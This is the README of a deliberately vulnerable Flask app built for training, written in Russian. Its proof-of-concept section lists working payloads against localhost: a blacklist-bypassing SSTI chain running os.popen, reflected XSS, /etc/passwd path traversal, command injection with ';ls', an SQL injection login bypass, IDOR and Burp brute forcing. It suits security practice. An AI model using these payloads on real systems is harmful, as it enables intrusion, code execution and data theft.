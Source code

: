 # vuln-app
#Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd app
> - python __init__.py
> - flask приложение будет запущено по адресу http://127.0.0.1:8089

![image](https://github.com/medarov411/vuln-app/assets/60567375/302c807a-5503-411e-a291-bbe552f247ec)



### Proof of Concept

SSTI:

> url - http://127.0.0.1:8089/contact. Контактная форма, с одним полем ввода.

> Настроил блеклист для ssti, чтоб пейлоад был поинтересней. blacklist = [".","[","]","_","join","init","flag"]

> Конечный пейлоад: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0635d79b-576c-4515-8675-169c49209763)

<p>&nbsp;</p>

XSS(reflected):
> xss эксплуатируется там же, где и ssti - http://127.0.0.1:8089/contact

> http://127.0.0.1:8089/contact?email=<script>alert(1)</script>

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0b6d6749-0813-4635-aaf4-69384d24f5f8)

<p>&nbsp;</p>

Path Traversal:
> кнопка Read Policy на главной странице "http://127.0.0.1:8089/" ведет на url "http://127.0.0.1:8089/view_file?filename=15020.pdf"

> пейлоад:http://127.0.0.1:8089/view_file?filename=../../../../../etc/passwd

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/2b8cf974-f629-443f-b30c-5925e08defb1)

<p>&nbsp;</p>

OS Command injection:
> на сайте реализовано подобие ping сервиса. Url - http://127.0.0.1:8089/ping

>пейлоад: 127.0.0.1;ls

>![image](https://github.com/medarov411/vuln-app/assets/60567375/303665c2-83d6-41ba-8fd2-5706ad0efa01)

<p>&nbsp;</p>

SQLI:
> форма авторизации в админ панель подвержена sql инъекциям. url - http://127.0.0.1:8089/login

>в базе данных есть два юзера - admin:jasper, wiener:password

>При успешной авторизации, происходит редирект на /admin-panel?user={username}
>![image](https://github.com/medarov411/vuln-app/assets/60567375/6e520b0f-355b-4377-8839-0b1740a8bcf7)
P.S не обращайте внимания, что там написано IDOR. Эта админ панель далее будет использована в демонстрации IDOR уязвимости.

>При не правильных данных: Login Failed
>![image](https://github.com/medarov411/vuln-app/assets/60567375/486498d8-1a5b-4fa2-a2de-7922159825b4)

>пейлоад: admin' or 1=1--

<p>&nbsp;</p>

IDOR:
> idor связан с админ панелью. У нас есть второй юзер wiener. Но когда он авторизовывается, то доступ у него закрыт к админ панели.
![image](https://github.com/medarov411/vuln-app/assets/60567375/ae45a797-1f04-4299-a1d0-a2633404bbcb)

> Но если изменить параметр user в /admin-panel?user=wiener на /admin-panel?user=admin, то доступ появляется
 

<p>&nbsp;</p>

Brute force:
> Для брута можно использовать burp. Словарь - rockyou.txt

>![image](https://github.com/medarov411/vuln-app/assets/60567375/be06ebe7-1db1-436a-9069-f09a9937d251)

>![image](https://github.com/medarov411/vuln-app/assets/60567375/515c7912-989a-47ef-b6d9-44166251d764)

>Ставим grep match на слово success
![image](https://github.com/medarov411/vuln-app/assets/60567375/f8965f7f-30d4-42d9-ba5e-b4b79b409d34)
![image](https://github.com/medarov411/vuln-app/assets/60567375/984ac396-4fa6-48d3-8c47-c81b392be400)


### Дополнительные комментарии
> От себя решил добавить SSTI с фильтрацией, все таки это flask. Не добавить в него ssti, было бы неуважительно :)

